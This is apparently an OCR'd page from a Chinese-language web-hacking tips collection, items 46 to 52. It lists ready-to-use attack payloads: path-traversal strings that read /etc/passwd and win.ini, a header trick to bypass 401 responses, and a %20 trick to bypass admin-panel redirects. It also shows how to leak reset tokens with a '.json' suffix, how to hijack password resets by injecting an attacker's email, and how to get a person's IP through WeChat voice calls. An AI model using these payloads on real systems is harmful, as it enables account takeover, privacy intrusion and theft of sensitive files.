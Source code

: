 46、SSRF常见的参数，详情请看dicts目录下的SSRF-extensions.txt文件。

47、通过添加`.json`后缀，泄露一些敏感信息，比如：

```
一次正常请求：
GET /ResetPassword HTTP/1.1
{"email":"victim@example.com"}
响应：
HTTP/1.1 200 OK

添加.json后缀的请求：
GET /ResetPassword.json HTTP/1.1
{"email":"victim@example.com"}
响应：
HTTP/1.1 200 OK
{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}
原链接：https://twitter.com/SalahHasoneh1/status/1293918353971531776
```

48、如果响应为401，可以试试在请求头中添加`X-Custom-IP-Authorization: 127.0.0.1`

49、利用火绒剑，配合微信发语音的方式，可以获取该人的登录IP。

50、目录穿越，敏感文件读取一些Payload：

```
\..\WINDOWS\win.ini
..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\
.?\.?\.?\etc\passwd
../../boot.ini
%0a/bin/cat%20/etc/passwd
\\&apos;/bin/cat%20/etc/passwd\\&apos;
..%c1%afetc%c1%afpasswd
```

51、在访问admin路径面板时可以通过添加`%20`，来绕过，具体如下：

```
target.com/admin –> HTTP 302 (重定向到登录页面)
target.com/admin%20/ -> HTTP 200 OK
target.com/%20admin%20/ -> HTTP 200 OK
target.com/admin%20/page -> HTTP 200 OK
```

52、在重置密码的地方，可以尝试添加另外一个次要的账号，比如，手机号，邮箱号等等，比如：

```
a、构造两个参数：
	email=victim@xyz.tld&email=hacker@xyz.tld
b、使用抄送方式:
	email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
c、使用分隔符：
	email=victim@xyz.tld,hacker@xyz.tld
	email=victim@xyz.tld%20hacker@xyz.tld
	email=victim@xyz.tld|hacker@xyz.tld
d、不使用域名：email=victim
e、不使用顶级域名：email=victim@xyz
f、JSON情况：
{"email":["victim@xyz.tld","hacker@xyz.tld"]}
```

